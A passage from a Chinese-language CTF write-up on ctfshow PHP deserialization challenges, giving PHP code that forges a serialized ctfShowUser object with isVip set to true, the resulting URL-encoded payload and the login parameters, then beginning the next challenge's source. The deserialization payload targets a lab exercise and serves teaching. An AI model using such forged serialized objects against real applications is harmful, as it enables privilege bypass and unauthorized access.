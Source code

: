 构造

```php
<?php

error_reporting(0);
class ctfShowUser{
    public $username='1';
    public $password='1';
    public $isVip=true;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$user=new ctfShowUser();
echo urlencode(serialize($user));
```

得到序列化后的字符串，

```txt
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22password%22%3Bs%3A1%3A%221%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

还得需要传入的同户名密码与其相等，故传入

```php
?username=1&password=1
```

![image-20210201092102532](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210201092102532.png)

## web256

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
```